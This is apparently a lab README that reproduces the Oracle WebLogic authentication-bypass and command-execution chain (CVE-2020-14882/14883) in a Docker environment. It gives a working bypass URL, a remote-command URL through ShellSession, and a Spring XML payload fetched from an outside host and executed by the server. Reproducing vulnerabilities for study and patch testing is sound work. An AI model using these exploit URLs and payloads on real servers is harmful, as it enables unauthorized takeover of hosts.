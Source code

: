 # Weblogic Unauthentication Remote Command Execution (CVE-2020-14882, CVE-2020-14883)

[中文版本(Chinese version)](README.zh-cn.md)

Oracle WebLogic Server is the industry leading application server for building enterprise applications using Java EE standards, and deploying them on a reliable, scalable runtime with low cost of ownership.

In [Oracle Critical Patch Update Advisory - October 2020](https://www.oracle.com/security-alerts/cpuoct2020traditional.html), Oracle fixed two security vulnerabilities submitted by security researcher @Voidfyoo from Chaitin Tech, CVE-2020-14882 and CVE-2020-14883.

CVE-2020-14882 allows remote users to bypass the authentication in administrator console component, and CVE-2020-14883 allows authencated user to execute any command on administrator console component. Using a chain of these two vulnerabilities, unauthenticated remote attacker can execute arbitrary commands on the Oracle WebLogic server over HTTP and take complete control of the host.

References: 

- https://www.oracle.com/security-alerts/cpuoct2020traditional.html
- https://testbnull.medium.com/weblogic-rce-by-only-one-get-request-cve-2020-14882-analysis-6e4b09981dbf

## Environment Setup

Start a Weblogic server 12.2.1.3 by executing the following command:

```
docker-compose up -d
```

After the startup is complete, visit `http://your-ip:7001/console` to view the administrator console login page.

## Exploit

Using this URL to bypass the authentication of Console component:

```
http://your-ip:7001/console/css/%252e%252e%252fconsole.portal
```

![](1.png)

At this moment, you don't have permission to upload a webshell:

![](2.png)

The second vulnerability, CVE-2020-14883, there are two ways to exploit, one is through `com.tangosol.coherence.mvel2.sh.ShellSession`, and the other is through `com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext`.

Visit the following URL to chain 2 vulnerabilities and execute commands from `com.tangosol.coherence.mvel2.sh.ShellSession`:

```
http://your-ip:7001/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.tangosol.coherence.mvel2.sh.ShellSession("java.lang.Runtime.getRuntime().exec('touch%20/tmp/success1');")
```

`touch /tmp/success1` has been successfully executed inside the container:

![](3.png)

This method of exploit can only be used in Weblogic 12.2.1 and above, because 10.3.6 doesn't have the class `com.tangosol.coherence.mvel2.sh.ShellSession`.

`com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext` is a more common exploit, which was first introduced in CVE-2019-2725 and is useable for any Weblogic versions.

To exploit the `FileSystemXmlApplicationContext`, you need to make a crafted XML file and serve it on a server that Weblogic can access, such as `http://example.com/rce.xml`:

```xml
<?xml version="1.0" encoding="UTF-8" ?>
<beans xmlns="http://www.springframework.org/schema/beans"
   xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
   xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
          <list>
            <value>bash</value>
            <value>-c</value>
            <value><![CDATA[touch /tmp/success2]]></value>
          </list>
        </constructor-arg>
    </bean>
</beans>
```

Then through the following URL, Weblogic would load this XML and execute the commands in it:

```
http://your-ip:7001/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext("http://example.com/rce.xml")
```

![](4.png)

The shortcomings of this exploit is that, it requires the Weblogic server to be able to access the malicious XML.
